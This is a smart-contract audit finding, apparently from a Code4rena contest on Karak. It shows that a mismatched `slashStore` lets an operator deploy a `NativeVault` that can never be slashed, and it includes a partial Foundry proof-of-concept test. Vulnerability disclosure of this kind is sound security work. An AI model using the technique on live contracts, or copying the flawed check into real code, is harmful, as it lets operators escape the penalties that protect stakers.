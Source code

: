 `NativeVault` is used to make native restaking with the ETH of Beacon Chain validators of users. When a slashing is executed, the address of `assetSlashingHandlers` mapping is inserted as a params in [the call](https://github.com/code-423n4/2024-07-karak/blob/f5e52fdcb4c20c4318d532a9f08f7876e9afb321/src/entities/SlasherLib.sol#L134-L138) `slashAssets()` :

```solidity
    for (uint256 i = 0; i < queuedSlashing.vaults.length; i++) {
        IKarakBaseVault(queuedSlashing.vaults[i]).slashAssets(
            queuedSlashing.earmarkedStakes[i],
            self.assetSlashingHandlers[IKarakBaseVault(queuedSlashing.vaults[i]).asset()]
        );
    }
```

Then the function make this [verification](https://github.com/code-423n4/2024-07-karak/blob/f5e52fdcb4c20c4318d532a9f08f7876e9afb321/src/NativeVault.sol#L308) with the input address of `slashingHandler`:

```solidity
    if (slashingHandler != self.slashStore) revert NotSlashStore();
```

If the operator, during the initialization, insert a `slashStore` address which is different from the `assetSlashingHandlers` address for ETH, the call on the `NativeVault` will always revert and make the vault slash impossible.

**Proof of Concept**

You can add this PoC to the `./test/nativeRestaking/nativeVault.t.sol`:

```solidity

    function test_createUnslashableVault() public {
        //Setup
        vm.warp(1718549030);
        NativeVault unslashableVault;
        address badSlashStore = address(666);
        DSSContract dss = new DSSContract();

        vm.startPrank(address(dss));
        core.registerDSS(100000000000000000000);
        vm.stopPrank();       
        // Setup NativeNode implementation
        address nativeNodeImpl = address(new NativeNode());

        // Deploy Vaults
        VaultLib.Config[] memory vaultConfigs = new VaultLib.Config[](1);
        vaultConfigs[0] = VaultLib.Config({
            asset: Constants.DEAD_BEEF,
            decimals: 18,
            operator: operator,
            name: "NativeTestVault",
            symbol: "NTV",
            extraData: abi.encode(address(manager), badSlashStore, address(nativeNodeImpl))
        });

        vm.startPrank(operator);
        IDSS dssInterface = IDSS(address(dss));
        core.registerOperatorToDSS(dssInterface, bytes(""));
        IKarakBaseVault[] memory vaults = core.deployVaults(vaultConfigs, address(0));
        unslashableVault = NativeVault(address(vaults[0]));
        
        //Register vault staked for dss
        Operator.StakeUpdateRequest memory stakeRequest = Operator.StakeUpdateRequest({
            vault: address(unslashableVault),
            dss: dssInterface,
            toStake: true
        });
```